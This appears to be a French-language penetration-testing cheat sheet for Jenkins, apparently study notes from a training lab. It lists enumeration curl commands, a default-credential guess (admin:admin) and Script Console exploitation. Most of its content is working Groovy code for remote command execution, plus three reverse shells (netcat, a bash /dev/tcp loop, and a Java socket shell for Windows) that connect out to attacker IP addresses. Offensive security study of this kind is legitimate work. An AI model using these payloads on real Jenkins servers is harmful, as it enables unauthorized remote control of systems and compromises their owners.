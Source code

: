  
- [ ] [[#ENUMERATION MANUELLE]]
- [ ] [[#EXPLOITATION]]
- [ ] [[#HARDENING]]


Port 8080 par défaut / 5000 pour les serveurs esclaves


# ENUMERATION MANUELLE

- [ ] [[#Identifier Jenkins / page de login]]
- [ ] [[#Tester default creds]]

## Identifier Jenkins / page de login

```bash
curl -s http://jenkins.inlanefreight.local:8000/login?from=%2F | grep Jenkins
```

## Identifier la version

```sh
curl -s http://172.16.1.19:8080/oops | grep data-version
```

## Tester default creds

admin:admin ...


---
# EXPLOITATION

- [[#Script Console]]
- [[#CVEs]]


## Script Console

http://jenkins.inlanefreight.local:8000/script

Permet d'exécuter Apache [Groovy](https://en.wikipedia.org/wiki/Apache_Groovy) scripts.

#### RCE

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

#### Reverse Shell

```Groovy
def cmd = 'busybox nc 10.10.14.63 443 -e /bin/bash'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(100000)
println sout
```

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```


Windows

```groovy
String host="10.10.14.63";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## CVEs

[CVE-2019-1003000](https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266)

https://github.com/gquere/pwn_jenkins








---

# HARDENING

https://www.jenkins.io/doc/book/security/securing-jenkins/
